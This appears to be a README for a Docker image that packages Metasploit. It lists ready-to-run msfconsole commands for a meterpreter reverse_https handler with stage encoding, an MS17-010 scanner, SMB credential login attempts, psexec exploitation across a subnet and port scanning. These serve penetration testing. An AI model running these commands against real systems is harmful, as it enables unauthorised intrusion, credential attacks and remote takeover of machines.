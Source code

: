 # METASPLOIT DOCKER IMAGE

Docker image running metasploit.

For `metasploit` licence please read: [metasploit license](https://github.com/rapid7/metasploit-framework/blob/master/LICENSE)


# Usage

* run metasploit container

```bash
docker run -it --rm -v $PWD:/share boogy/metasploit
```

* run a complete meterpreter handler with port mapping and filesystem share

```bash
docker run -it --rm -p 80 -p 8080 -p 443 -p 8443 -v $PWD:/share boogy/metasploit msfconsole -x "spool /metasploit.log; use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.60.200; set LPORT 443; set ExitOnSession false; set EnableStageEncoding true; set StageEncoder x64/zutto_dekiru; exploit -j -z"
```

* run metasploit container with ports mapped

```bash
docker run -it --rm -p 443 -p 8443 -v $PWD:/share boogy/metasploit
```

* http_version scanner

```bash
docker run -it --rm boogy/metasploit msfconsole -x "use auxiliary/scanner/http/http_version; set RHOSTS 192.168.10.0/24; set THREADS 10; exploit -j"
```

* MS17-010 scanner

```bash
docker run -it --rm boogy/metasploit msfconsole -x "use auxiliary/scanner/smb/smb_ms17_10; set RHOSTS 192.168.10.0/24; set THREADS 20; exploit -j"
```

* smb_login module

```bash
docker run -it --rm boogy/metasploit msfconsole -x "use auxiliary/scanner/smb/smb_login; set RHOSTS 1192.168.10.0/24; set SMBDomain FOO; set SMBPass Passw0rd; set SMBUser foo; set THREADS 20; set DETECT_ANY_AUTH false ; exploit -j"
```

* psexec module

```bash
docker run -it --rm boogy/metasploit msfconsole -x "use exploit/windows/smb/psexec; set RHOSTS 192.168.10.0/24; set SMBDomain FOO; set SMBPass Passw0rd; set SMBUser foo; set THREADS 20; set DETECT_ANY_AUTH false; exploit -j"
```

* tcp port scanner in background

```bash
docker run -it --rm boogy/metasploit msfconsole -x "use auxiliary/scanner/portscan/tcp; set RHOST 0.0.0.0/24; set THREADS 30; exploit -j"
```

